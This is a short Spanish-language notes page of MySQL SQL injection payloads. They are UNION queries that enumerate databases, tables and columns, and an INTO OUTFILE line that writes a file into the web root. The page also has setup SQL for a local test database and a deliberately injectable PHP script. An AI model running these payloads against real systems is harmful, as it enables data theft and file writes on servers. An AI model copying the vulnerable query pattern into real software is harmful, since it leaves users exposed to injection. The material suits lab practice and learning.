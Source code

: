 # SQL Injection

En esta pagina se recopila todo lo que se vaya haciendo para SQLi.

## MySQL

### Listar bbdd

~~~sql
' union select schema_name,null from information_schema.schemata
~~~

### Listar tablas

~~~sql
' union select table_name,null from information_schema.tables where table_schema='products'-- -
~~~

### Listar columnas

~~~sql
' union select column_name,null from information_schema.columns where table_schema='products' and table_name='users'-- -
~~~

### Insertar fichero

~~~sql
union select 'hola' into outfile '/var/www/html/prueba.txt'-- -
~~~

## Creación de BBDD de pruebas en local

```sql
create database pruebasdb;
use pruebasdb;
create table users(id int(32),username varchar(32),nombre varchar(150), password varchar(32));
insert into users(id, username, nombre, password) values(1, 'jamunoz', 'Juanito', 'Juanito123+');
insert into users(id, username, nombre, password) values(2, 'pepito', 'Pepito Grillo', 'pePItoELgrillo');
insert into users(id, username, nombre, password) values(3, 'manolito', 'Manolito Gafotas', 'ManoloElDelBombo2023');

create user 'jamunoz'@'localhost' identified by 'Juan123';
grant all privileges on pruebasdb.* to 'jamunoz'@'localhost';
```

## Creación de fichero php vulnerable a SQLi

```php
<?php

$server = "localhost";
$username = "jamunoz";
$password = "Juan123";
$database = "pruebasdb";

// Conexion a BBDD
$conn = new mysqli($server, $username, $password, $database);

$id = $_GET['id'];

$data = mysqli_query($conn, "select nombre from users where id = '$id'");

$response = mysqli_fetch_array($data);

echo $response['nombre'];

?>

```